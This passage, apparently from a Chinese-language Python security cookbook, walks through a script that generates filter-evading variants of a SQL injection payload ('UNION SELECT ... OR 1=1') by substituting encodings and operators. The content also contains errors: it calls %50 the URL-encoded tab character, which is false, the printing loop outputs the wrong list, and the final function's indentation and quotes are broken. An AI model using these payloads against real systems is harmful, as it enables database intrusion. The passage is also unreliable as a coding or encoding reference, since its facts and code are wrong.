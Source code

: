 ```py
secondoriginalstring = originalstring
```

我们依次取每个字典项，并将每个键和值分配给参数键和值：

```py
for key, value in values.iteritems():
```

我们查看初始术语是否存在，如果存在，则用键值替换它。例如，如果存在空格，我们将用`%50`替换它，这是 URL 编码的制表符字符：

```py
if key in originalstring:
    newstring = originalstring.replace(key, value)
```

这个字符串，在每次迭代时，都会重置为我们在脚本开头设置的原始值。然后我们将该字符串添加到之前创建的列表中：

```py
subs.append(newstring)
```

我们执行与之前相同的操作，使用迭代字符串来创建一个多次编码的版本：

```py
if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)
```

最后，我们通过将其转换为集合使列表变得唯一，并逐行将其返回给用户：

```py
subset = set(subs)
for line in subs:
  print line
```

## 还有更多…

同样，这可以成为一个内部函数，而不是作为独立脚本使用。也可以通过使用以下脚本来实现：

```py
def encoder(string):

subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin'”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
return subset
```
